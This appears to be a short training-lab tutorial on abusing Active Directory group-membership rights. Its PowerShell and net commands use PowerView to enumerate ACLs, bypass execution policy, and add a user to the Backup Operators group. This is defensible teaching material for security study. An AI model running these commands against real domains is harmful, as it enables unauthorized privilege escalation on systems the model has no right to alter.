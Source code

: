 
---
---
When an attacker controls a privileged user account with the ability to edit a group's member attribute, they can effectively add new users to that group. This attack/abuse is possible when the controlled account has `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights`, or `Self-Membership` over the target group.
## Identifying Vulnerable Groups

We can use `BloodHound` to determine if we have those privileges via the [AddMembers](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addmembers) edge:

![addmember_bloodhound.png](https://academy.hackthebox.com/storage/modules/219/addmember_bloodhound.png)


```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $userSID = (Get-DomainUser -Identity pedro).objectsid
PS C:\Tools> Get-DomainObjectAcl -Identity 'Backup Operators' -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID}
```
## Abusing AddMember From Windows

> Query the Backup Operators Group Membership

```cmd
net localgroup "Backup Operators"
```

> Trying to add Pedro to the Backup Operators Group with net

```cmd
 net localgroup "Backup Operators" pedro /add
```

> Adding a User to Group using PowerView

```powershell
Add-DomainGroupMember -Identity "Backup Operators" -Members pedro -Verbose
```

